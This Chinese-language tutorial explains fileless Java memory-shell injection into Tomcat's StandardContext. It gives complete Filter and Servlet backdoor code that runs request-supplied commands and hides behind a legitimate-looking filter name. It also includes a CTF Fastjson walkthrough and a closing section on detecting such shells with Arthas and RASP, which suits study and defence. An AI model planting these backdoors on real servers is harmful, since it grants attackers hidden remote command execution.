




# 👻 Java 传统三大组件内存马注入深度精解：Tomcat 底层 StandardContext 结构剖析与 Filter/Listener/Servlet 无文件驻留

> **对抗演进维度**：在现代蓝队防御体系与云原生容器环境下，传统的落盘 WebShell（如 `shell.jsp`）面临着天罗地网般的围剿：
> 1. 主机安全 Agent（HIDS/EDR）的文件完整性校验与创建告警；
> 2. 容器只读根文件系统（Read-Only Root Filesystem）；
> 3. WAF 针对新生成静态脚本文件的扫描规则。
> **内存马（Memory Shell / WebShell-less）** 打破了“文件落地”的宿命——它直接通过 Java 反射与字节码操作，**将恶意控制逻辑无缝注入正在运行的 JVM 内存堆中，伪装为中间件原本合法的底层组件**！
> 无文件落地、无需开放新端口、可复用原有任意正常业务 URL，是 Java Web 攻防对抗的最高形态！

---

## 0. 基础前置认知与小白扫盲：什么是“无文件落地”内存马？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 通俗生活比喻：被催眠站岗的安保流水线
* **传统木马（文件落地，容易暴毙）**：
  * 黑客利用文件上传或任意写文件漏洞，在网站目录（如 `/var/www/html/`）塞入了一份伪造的离线木马脚本（如 `shell.jsp`）。
  * **致命弱点**：现代企业安装了主机安全软件（EDR / HIDS）与巡逻机器人，每天会对磁盘做文件哈希校验与完整性扫描。只要看到突然多出来一个从未见过的陌生 `.jsp` 文件，或者里面包含 `Runtime.getRuntime().exec` 等敏感字符，立刻报警并一脚踢进隔离区。
* **内存马（无文件驻留，幽灵隐身）**：
  * 黑客完全**不在磁盘上创建任何新文件**！
  * 而是趁着程序执行漏洞（如反序列化或任意代码执行），直接向正在高速运转的 Java 虚拟机（JVM）堆内存中注入恶意逻辑，相当于**给正在大厦门口站岗的执勤安保队伍（Tomcat Filter / Listener）施加了精神催眠**：
  * “从现在起，只要你看到路过的客人递上来一张含有秘密暗号（例如 HTTP 请求头带 `cmd: whoami`）的纸条，你不要放他去后厨，直接在安检门就地帮他执行这条命令，并将执行结果写在回执单里塞回给他；至于其他普通客人，你依然完全照常放行。”
  * **实战威力**：磁盘上一尘不染，扫描器在硬盘上挖地三尺也找不到一句话木马；只有当整台服务器或 Java Web 中间件进程彻底重启，这股驻留在内存中的指令才会随之消散。



---

### 2. Tomcat 核心组件：三大金刚的生活化角色对照
初学者刚接触 Java Web 时，经常被 Listener、Filter、Servlet 搞得头晕眼花。请记住下面的生动对照：
* **Listener（迎宾门童）**：
  * 站在酒店大堂最外侧的感应旋转门。只要客人的脚刚踏入大门（HTTP 请求刚到达、`HttpServletRequest` 对象初始化的瞬间），门童就立刻收到系统广播。
  * **优势**：触发时机在全系统最前沿，最先截获请求参数并执行恶意逻辑。
* **Filter（安检扫描流水线）**：
  * 客人走向业务柜台之前必须经过的安检扫描传送带。
  * **优势**：不仅可以对全站所有路径（`/*`）生效，而且安检员拥有“截断请求并直接赶人”的权力——一旦发现黑客暗号，直接就地执行命令并向客户端输出回显，根本不需要让请求继续流向后方真实的业务系统，极其稳定隐蔽。
* **Servlet（具体办理业务的柜台窗口）**：
  * 大厅内部各个专门负责办理业务的营业员（如登录柜台、支付柜台、查账柜台）。
  * **劣势**：通常需要绑定一个具体且唯一的门牌号（URL 路由）。如果注入 Servlet 内存马，往往需要凭空伪造一个新路径（如 `/memshell`），容易被运维人员在路由表中肉眼察觉。

---

### 3. 反射机制（Reflection）与神级破锁咒语 `setAccessible(true)`
在后续的内存马注入代码中，你会频繁看到大量的 Java 反射调用，初学者必须搞懂它的底层含义：
* **为什么正常代码写不进去，必须用反射？**
  * Java 是讲究严格封装的语言。Tomcat 为了安全，将很多核心账本（比如存储所有活跃 Filter 的列表）设为了 `private`（私有保密），甚至用了一个名叫 `ApplicationContextFacade` 的外壳严密锁起来，普通开发者根本无法直接通过 `context.filters` 访问。
* **万能撬锁工具箱逐字拆解**：
  * `getClass().getDeclaredField("context")`：顺藤摸瓜，不管该字段是不是 `private` 私有的，强行找到这个暗格的位置。
  * `field.setAccessible(true)`：**安全攻防中的万能破锁咒语！** 它的作用是强行关闭 Java 运行时的访问权限检查，让外界代码有权力直接读取并篡改原本处于受保护/私有状态的底层关键对象。
  * `field.get(obj)` / `field.set(obj, val)`：无视私有修饰符，强行把保险柜里的核心大管家实例偷取出来，或者把黑客自己的恶意对象塞进名册中。

---

## 一、Tomcat 容器核心架构与请求处理时序

在 Tomcat 架构中，一个 Web 应用对应一个独立的 **`StandardContext`（上下文容器）**。当 HTTP 请求到达 Tomcat 时，底层责任链模式严格按如下顺序调用三类组件：



> [!IMPORTANT]
> **黄金优先级法则**：
> 1. **Listener**：处于请求生命周期的最前沿！在请求对象初始化的瞬间触发，最先截获请求参数并执行命令！
> 2. **Filter**：在进入具体业务 Servlet 前拦截请求，能够拦截全站任意匹配 URL（如 `/*`），并能直接截断请求向客户端提前输出回显！
> 3. **Servlet**：最终负责业务逻辑分发。通常需要挂载一个特定的独立路由（如 `/memshell`）。

---

## 二、Tomcat Filter 内存马底层注入原理（最经典稳定）

Filter 内存马的核心在于：**向正在运行的 `StandardContext` 中动态注册一个恶意 `Filter`，并强行将其插到当前过滤器链的最顶端！**

### 1. 核心支撑结构：三大对象缺一不可

要让一个 Filter 真正生效，必须在 `StandardContext` 中同时登记以下三个数据结构：



---

### 2. 动态捕获 `StandardContext` 的两大黑科技路径

在无直接上下文可用的反序列化或执行环境中，如何凭空抓到 `StandardContext`？

#### 方式 A：从当前线程的线程栈上下文中定位（适用于反序列化 RCE / Spring 环境）
遍历当前 JVM 的全部活跃线程，在线程的内部字段中找到 `StandardContext` 或 `TomcatEmbeddedContext`：
```java
Thread[] threads = (Thread[]) java.lang.reflect.Array.newInstance(
    Thread.class, Thread.activeCount()
);
Thread.enumerate(threads);
for (Thread t : threads) {
    if (t == null) continue;
    // 在特定名称的线程 (如 http-nio-exec-*) 的 target 或 contextClassLoader 溯源
    // 提取 org.apache.catalina.core.StandardContext 实例
}
```

#### 方式 B：从当前 `HttpServletRequest` 对象的 Facade 中逆向解包（适用于 JSP 脚本 / 内存注入点）
```java
ServletContext servletContext = request.getServletContext();
// ApplicationContextFacade 包装了 ApplicationContext
Field appCtxField = servletContext.getClass().getDeclaredField("context");
appCtxField.setAccessible(true);
ApplicationContext appCtx = (ApplicationContext) appCtxField.get(servletContext);

// ApplicationContext 包装了 StandardContext
Field stdCtxField = appCtx.getClass().getDeclaredField("context");
stdCtxField.setAccessible(true);
StandardContext standardContext = (StandardContext) stdCtxField.get(appCtx);
```

---

### 3. Filter 内存马装配四步法源码级拆解

```java
// 步骤 1: 构造恶意 Filter 逻辑
Filter memFilter = new Filter() {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {}
    
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
            throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;
        String cmd = req.getParameter("cmd");
        if (cmd != null && !cmd.trim().isEmpty()) {
            // 💥 截获命令并执行
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.InputStream in = process.getInputStream();
            java.util.Scanner scanner = new java.util.Scanner(in).useDelimiter("\\A");
            String output = scanner.hasNext() ? scanner.next() : "";
            resp.getWriter().write(output);
            resp.getWriter().flush();
            return; // 提前截断，不进入后续正常业务逻辑
        }
        chain.doFilter(request, response); // 非恶意请求正常放行
    }
    
    @Override
    public void destroy() {}
};

// 步骤 2: 组装 FilterDef
String filterName = "SecurityFilter_" + System.currentTimeMillis();
org.apache.catalina.deploy.FilterDef filterDef = new org.apache.catalina.deploy.FilterDef();
filterDef.setFilterName(filterName);
filterDef.setFilter(memFilter);
filterDef.setFilterClass(memFilter.getClass().getName());
standardContext.addFilterDef(filterDef);

// 步骤 3: 组装 FilterMap 并插到最前排 (addFilterMapBefore)
org.apache.catalina.deploy.FilterMap filterMap = new org.apache.catalina.deploy.FilterMap();
filterMap.addURLPattern("/*"); // 劫持所有路径
filterMap.setFilterName(filterName);
filterMap.setDispatcher(DispatcherType.REQUEST.name());
// 💥 绝杀点：addFilterMapBefore 确保本 Filter 位于最前面，先于任何业务认证 Filter 执行！
standardContext.addFilterMapBefore(filterMap);

// 步骤 4: 反射构建 ApplicationFilterConfig 并写入 filterConfigs Map
Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
filterConfigsField.setAccessible(true);
Map filterConfigs = (Map) filterConfigsField.get(standardContext);

java.lang.reflect.Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(
    Context.class, org.apache.catalina.deploy.FilterDef.class
);
constructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
filterConfigs.put(filterName, filterConfig);
```

---

## 三、Tomcat Listener 内存马实现（极简且强悍）

`ServletRequestListener` 能够监听每一个 HTTP 请求的初始化与销毁。其最大优势在于：**注入代码极其精简，仅需调用一次 `addApplicationEventListener`！**



#### 🔍 注入核心调用：
```java
ServletRequestListener memListener = new ServletRequestListener() {
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
        String cmd = req.getParameter("shell_cmd");
        if (cmd != null) {
            try {
                // 反射获取当前线程的 Response 对象并回显执行结果
                // 或直接通过 Socket 回显
            } catch (Exception e) {}
        }
    }
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {}
};

// 💥 仅需一行调用直接注入生效！
standardContext.addApplicationEventListener(memListener);
```

---

## 四、Tomcat Servlet 内存马实现

通过 `standardContext.createWrapper()` 动态生成 `Wrapper` 容器：

```java
Servlet memServlet = new HttpServlet() {
    @Override
    protected void service(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        if (cmd != null) {
            resp.getWriter().write(new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next());
        }
    }
};

Wrapper wrapper = standardContext.createWrapper();
wrapper.setName("CustomServlet");
wrapper.setServlet(memServlet);
wrapper.setServletClass(memServlet.getClass().getName());
wrapper.setLoadOnStartup(1);

standardContext.addChild(wrapper);
standardContext.addServletMappingDecoded("/my_hidden_gate", "CustomServlet");
```
* **访问验证**：直接向 `http://target:8080/my_hidden_gate?cmd=cat+/flag` 发起请求即可回显命令结果！

---

## 五、CTF 实战靶场案例复现（Fastjson 反序列化注入 Filter 内存马）

### 靶场情境：Spring Boot + Tomcat 内嵌服务反序列化

1. 靶场提供一个 Fastjson 1.2.47 解析入口，内网不出网（无法 JNDI 远程加载类反弹 Shell）。
2. 本地构造一个实现 `Filter` 的恶意字节码类，继承自 `ClassLoader` 或通过 `BCEL` / `TemplatesImpl` 加载执行。
3. 动态从上下文捕获 `TomcatEmbeddedContext` 并完成 `Filter` 注册。

### 1. 验证内存马存活与任意路由劫持
无需寻找新的未授权 URL，甚至直接请求靶场的**主页或 404 页面**：
```http
GET /login?cmd=cat%20/flag HTTP/1.1
Host: target.ctf:8080
User-Agent: Mozilla/5.0
```

### 2. 响应报文：
```http
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8

flag{t0mc4t_f1lt3r_m3m0ry_sh3ll_1nj3ct10n_succ3ss}
```
* **杀伤力分析**：
  * 磁盘上没有任何后门文件落盘！
  * 访问已有的正常功能页面（`/login`）直接触发特权命令执行！
  * 防御者哪怕将 `/login` 的 `.jsp` 或 `.class` 源码做 MD5 校验比对，也找不出任何被篡改的痕迹！

---

## 六、内存马排查、查杀与动态检测方案

面对幽灵般的无文件内存马，蓝队防御与取证专家如何精准揪出真凶？

### 1. 使用阿里开源诊断工具 Arthas 定位
在服务器终端运行 `arthas-boot.jar`：
* **查看所有注册的 Servlet 与 Filter**：
  ```bash
  # 获取当前应用所有注入的 Filter 列表与映射
  mbean org.apache.catalina:type=FilterMap,*
  ```
* **反编译排查可疑类**：
  ```bash
  jad org.apache.catalina.deploy.FilterDef
  ```
  如果发现某个 Filter 的类名极度随机（如 `SecurityFilter_1718...`），或者没有对应的磁盘物理 `.class` 文件路径（由动态内存类加载器加载），立即确定为内存马！

### 2. 运行时自我防御（RASP）核心检测逻辑
RASP 在 JVM 底层通过 Java Agent 拦截 `StandardContext.addFilterDef()` 与 `addFilterMapBefore()` 调用：
* 核验调用栈上下文：若注册 Filter 的调用栈来自于反序列化 `readObject()`、JNDI 查找或未知临时 ClassLoader，一律直接在底层抛出安全异常拦截！

---

## 🔗 相关双向链接
- 上级模块：[[10-Java安全高阶与内存马]]
- 框架扩展：[[02-Spring Controller与Interceptor内存马注入]]
- 终极进阶：[[03-Agent内存马：动态Attach与字节码注入持久化]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
